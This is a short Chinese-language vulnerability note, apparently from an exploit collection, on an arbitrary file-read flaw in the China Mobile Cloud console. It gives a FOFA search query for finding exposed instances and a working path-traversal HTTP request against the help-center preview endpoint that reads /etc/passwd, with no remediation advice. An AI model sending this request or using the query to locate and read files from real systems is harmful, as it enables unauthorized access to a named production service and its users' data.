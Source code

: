 # 中国移动云控制台preview存在任意文件读取

# 一、漏洞简介
中国移动云控制台是一套用于统一查看和管理移动云产品及服务的系统，移动云控制台存在文件任意下载漏洞，攻击者可利用此漏洞获取任意文件信息。

# 二、影响版本
+ 中国移动云控制台

# 三、资产测绘
+ fofa`body="op-login-static/favicon.ico" || header="/oauth2/code/opgateway"`
+ 特征

![1717665626881-f95bf7e9-e0e5-418a-bccf-45b67fa9ea2f.png](./img/dwA7UL8Kn96zuHeq/1717665626881-f95bf7e9-e0e5-418a-bccf-45b67fa9ea2f-740575.png)

# 四、漏洞复现
```java
GET /api/query/helpcenter/api/v2/preview?fileName=../../../../../../../../etc/passwd HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
```

![1717665679298-f02a0afd-8a0e-4cde-b779-7cb99b10ce9c.png](./img/dwA7UL8Kn96zuHeq/1717665679298-f02a0afd-8a0e-4cde-b779-7cb99b10ce9c-230957.png)



> 更新: 2024-06-11 10:30:33  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/sh18y2kvdy1ou9gn>